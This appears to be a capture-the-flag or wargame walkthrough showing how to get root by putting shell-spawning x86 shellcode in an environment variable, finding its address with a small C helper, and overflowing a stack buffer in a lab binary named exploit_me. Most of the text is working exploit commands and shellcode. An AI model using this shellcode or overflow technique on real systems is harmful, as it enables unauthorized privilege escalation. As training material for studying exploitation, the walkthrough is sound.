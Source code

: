 # SHELLCODE

When we are the ZAZ user, instead of the ret2libc attack we can use a SHELLCODE.

We can find multiple SHELLCODES on the internet i'm using a basic one that just launch a shell as root.

First we export our SHELLCODE:

	export SHELLCODE=`python -c 'print "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"'`

Then to see where the address of our env we launch a little script:

	echo 'void main(){printf("%p\n", getenv("SHELLCODE"));}' > /tmp/getenv.c
    gcc /tmp/getenv.c -o /tmp/shellcode
    chmod 777 /tmp/shellcode
    /tmp/shellcode 

It gives us our address:

	0xbffff8f5

Then we use the bufferoverflow of exploit_me:

	./exploit_me `python -c "print 'A' * 140 + '\xf5\xf8\xff\xbf'"` 

And we are root !!!
